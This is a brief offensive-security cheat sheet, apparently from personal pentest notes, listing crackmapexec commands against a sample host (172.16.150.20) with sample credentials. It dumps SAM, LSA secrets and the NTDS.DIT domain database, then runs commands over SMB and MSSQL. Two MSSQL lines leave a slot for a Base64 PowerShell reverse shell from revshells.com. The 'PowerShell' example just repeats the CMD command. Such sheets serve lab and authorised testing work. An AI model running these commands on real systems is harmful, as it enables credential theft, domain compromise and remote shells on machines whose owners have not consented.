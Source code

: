 ## cme Dumping Credentials
```shell
# SAM
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --sam

# LSA
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --lsa

# NTDS.DIT RPC
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --ntds

# NTDS.DIT VSS
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' --ntds vss
```

## cme Command Execution
```shell
# CMD
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' -x "whoami"

# PowerShell
crackmapexec smb 172.16.150.20 -u john -p 'Password123!' -x "whoami"

# MSSQL
crackmapexec mssql 172.16.150.20 -u john -p 'Password123!' -x "whoami"
crackmapexec mssql 172.16.150.20 -u john -p 'Password123!' -x "Enter PowerShell#3 (Base64) Reverse Shell from revshells.com here"

# MSSQL with Domain Parameter
crackmapexec mssql 172.16.150.20 -d automotors.local -u john -p 'Password123!' -x "Enter PowerShell#3 (Base64) Reverse Shell from revshells.com here"
```

